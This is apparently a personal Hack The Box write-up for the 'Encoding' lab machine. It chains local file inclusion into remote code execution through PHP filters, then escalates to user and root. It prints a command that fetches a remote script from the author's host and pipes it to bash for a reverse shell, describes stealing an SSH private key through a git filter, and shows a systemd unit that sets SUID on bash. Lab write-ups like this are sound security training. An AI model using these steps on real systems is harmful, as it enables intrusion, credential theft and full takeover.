 ```yaml
---
title: "Hack The Box - Encoding [Medium]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


This machine took me a couple of days due to its complexity and some minor stuff that were a hassle to get right.

You will find the following vulnerabilities:
	- [Local File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
	- [Command Injection or RCE](https://book.hacktricks.xyz/pentesting-web/command-injection)

# Flag 1

I started by looking through the website to get some idea of its functionality. I saw that this is some sort of converter of data, like binary to hex and so on. But the interesting part was this:

>If required, you can specify a URL that will return data to be converted with the `file_url` parameter. This can be done for both string and integer convertions.

That quickly reminded me of local/remote file inclusion, and so I've tried it with the following payload:

```python
json_data = {
	'action': 'b64encode',
	'file_url' : 'file:///etc/passwd'
}
```

That gave me the contents of the `/etc/passwd` file encoded in base64, I used `base64 -d` to decode it. From there I saw another user `svc`.

I was also curious what's in the `/var/www/` directory, so I began enumerating the directory.

I ran `ffuf` on the main website `haxtables.htb/FUZZ` also ran `ffuf` for subdomain discovery.

```
$ ffuf -w $disc_wc/raft-small-directories-lowercase.txt -u http://haxtables.htb/FUZZ

$ ffuf -w $disc_wc/common.txt -u http://haxtables.htb/ -H "Host: FUZZ.haxtables.htb" -fs 1999
```

With those I found `api, image` subdomains, so I inspected them via the LFI vulnerability `/var/www/image/index.php` to check whether this application uses some kind of database or eventually some useful things. I found that `image` domain contains a git repository (through `git_status, git_log, git_commit` functions in `/var/www/image/index.php -> uitls.php`). This led me to believe that I could use that to gain user privileges later on. I decided to dump the repository and bear with me here I did it in the most ghetto way possible, through a local server that acted as a proxy for `gitdumper.sh`

```python
import requests
import json
from flask import Flask
import base64


app = Flask(__name__)


@app.route('/<path:filepath>')
def index(filepath):
    json_data = {
        'action': 'b64encode',
        'file_url' : "file://" + "/var/www/image/" + filepath
    }
    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    d = json.loads(response.text.strip())
    res = base64.b64decode(d["data"])
    return res
```

```
$ gitdumper.sh http://localhost:5000/.git/ ./dump_repo
```

Then I used the `git ls-files` to figure what other files are in the folder.

```
$ git ls-files
actions/action_handler.php
actions/image2pdf.php
assets/img/forestbridge.jpg
includes/coming_soon.html
index.php
scripts/git-commit.sh
utils.php
```

I saw the `actions/action_handler.php` source code by using the LFI vulnerability.

```php
<?php
include_once 'utils.php';
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page); # <-- BruhMoment
} else {
    echo jsonify(['message' => 'No page specified!']);
}
?>
```

It is pretty obvious that this code is vulnerable to LFI, and I can use it to gain a reverse shell through PHP Filters. But I can't access this page directly, so I can use the first LFI to execute this LFI to execute the PHP filters RCE... 

And this is me figuring out this after 2 days of trying...

![rwojak](/random/rwojak.jpg)

I generated a payload with the [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator).

```
$ python3 php_filter_chain_generator.py --chain '<?= `curl http://myIp/rev_bash_norm.sh|bash` ;?>'
```

And I hosted a web server containing the `rev_bash_norm.sh`, I won't show the full monstrosity of the generated filter request but in the end it looked like this:

```http
POST /v3/tools/string/index.php HTTP/1.1
Host: api.haxtables.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 12920

{
    "action": "b64encode",
    "file_url" : "email@image.haxtables.htb/actions/action_handler.php?page=php://filter/<bruhmoment>"
}
```

Whenever executed, this request will spawn a reverse shell.

The `www-data` to `svc(user)` was honestly too much for me, and I turned to some write-ups. 

> The next section is what I've tried and failed, feel free to skip it.

`<i-tried-this>`
I was pretty sure that it has something to do with the `git` scripts and I only had `rwxr-xr-x` permissions of the `.git` folder, so I've tried to simulate file edit by using the dumped repository and change all the files in the `.git` directory on the server. 

And that was kinda the right approach, but I didn't notice the `ssh` keys that I needed to retrieve, so I was hard stuck at this, and I went to some write-ups. 

`</i-tried-this>`

Check [gatogamer1155](https://gatogamer1155.github.io/htb/encoding/)'s write-up for gaining access to the user and retrieve the first flag.

TLDR: 
* Creates an executable file `/tmp/readkey` with a content that reads the 
`~/.ssh/id_rsa` file and saves it to file. 
- Creates a git attributes file with a new filter called indent:  `'*.php filter=indent'` 
- Sets the Git configuration `filter.indent.clean` to the command `/tmp/readkey`. This tells Git to apply the `indent` filter to files ending in `.php` and to use the `/tmp/readkey` command to process the filter.
- Execute the `/var/www/image/scripts/git-commit.sh` with `sudo -u svc`
- The filter is then applied, and you can read the private key file.

> **NOTE:** Make sure that whenever you save the private key on your machine add an empty line at the end of the file otherwise you will get an error!

After logging with the `svc` user, you can read the first flag.

# Flag 2

Honestly, this was too easy, but I didn't mind it since I spent too much time doing this box. 

Executing the `sudo -l` would give you the executables that you can execute as root.

```
(root) NOPASSWD: /usr/bin/systemctl restart *
```

I had to create a service that looks like that and place it under `/etc/systemd/system/syl.service`

```toml
[Service]
Type=simple
ExecStart=chmod +s /bin/bash
[Install]
WantedBy=multi-user.target
```

And simply execute:

```
$ sudo /usr/bin/systemctl restart syl
$ bash -p
bash-5.1# cat root/root.txt
. . .
```
